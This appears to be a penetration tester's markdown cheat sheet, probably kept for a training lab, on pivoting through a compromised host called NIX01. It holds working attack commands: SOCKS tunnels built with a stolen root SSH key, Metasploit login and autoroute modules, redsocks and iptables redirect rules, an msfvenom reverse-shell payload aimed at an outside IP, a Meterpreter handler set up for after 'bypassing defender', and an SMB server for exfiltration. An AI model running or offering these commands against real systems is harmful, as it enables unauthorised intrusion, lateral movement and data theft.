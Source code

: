 #### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

hhmmmmMMMM I must be doing something wrong I can curl some ip's I know are on the other side but cannot nmap or scan the range...   
dd

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit

## Start mult/handler for when I finally bypass defender:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`
